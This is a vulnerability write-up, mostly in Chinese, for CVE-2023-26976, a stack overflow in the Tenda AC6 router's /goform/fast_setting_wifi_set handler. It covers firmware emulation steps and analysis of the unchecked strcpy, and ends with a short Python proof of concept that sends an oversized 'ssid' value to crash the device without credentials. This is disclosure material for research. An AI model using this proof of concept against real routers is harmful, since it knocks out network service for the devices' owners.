# CVE-2023-26976_tenda_AC6_stack_overflow

## 漏洞描述

### 编号

CVE-2023-26976

### 设备信息&固件版本号

**Tenda AC6:**
v15.03.05.09_multi ~ V15.03.05.19(latest)
goahead framework

### 漏洞类型

DoS

### 危害

可访问路由器的攻击者无需凭证即可执行远程拒绝服务攻击

## 复现流程

### 复现设备&固件

Tenda AC6
v15.03.05.16_multi
v15.03.05.19_multi(latest)

### 固件下载&仿真

v15.03.05.16_multi
<https://down.tenda.com.cn/uploadfile/AC6/US_AC6V1.0BR_V15.03.05.16_multi_TD01.zipor>

提取固件


Qemu仿真,发现卡在Welcome to


跟踪httpd

首先check_network不通过会进入sleep,可以patch改掉函数返回值

接着运行，ConnectCfm也不通过，同样patch试试



发现服务起了，但是webs起的ip不对，估计是先前直接改返回值出的问题，再回去看看

改的两个函数都是import来的，先找check_network

跟进`libcommon.so`

看起来是根据interface名字获取ip，用于服务起的地址，跟进j_getLanIfName()

继续跟进import来的get_eth_name，在`libChipApi.so`

根据传来的int决定使用那个interface，根据libcommon.so中的跟踪确定传入的int为0，即获取网桥br0的地址


因此可以直接创建一个名为br0的网桥，再启动服务，至此仿真设备服务起来了

最后访问地址会404，看了一下webroot里是空的，把webroot_ro目录下文件复制进去web服务即可正常工作



### 漏洞分析

漏洞点在httpd服务中的form_fast_setting_wifi_set()
路由/goform/fast_setting_wifi_set
将用户输入的`ssid`参数传入`src`，但使用`strcpy(s, src)`时没有长度限制，又`s`为`char s[64]`，即在cpy时存在溢出

>There is a stack-based buffer overflow vulnerability in function `form_fast_setting_wifi_set`.
In function `form_fast_setting_wifi_set` it reads user provided parameter `ssid` into `src`, and this variable is passed into function `strcpy` without any length check, which may overflow the stack-based buffer `s`.

So by requesting the page `/goform/fast_setting_wifi_set`, the attacker can easily perform a Deny of Service Attack.

### 漏洞利用

get请求触发溢出

```python
import requests

IP = "192.168.2.199" # 路由器ip
url = f"http://{IP}/goform/fast_setting_wifi_set?"
url += "ssid=" + "s" * 100

response = requests.get(url)
```


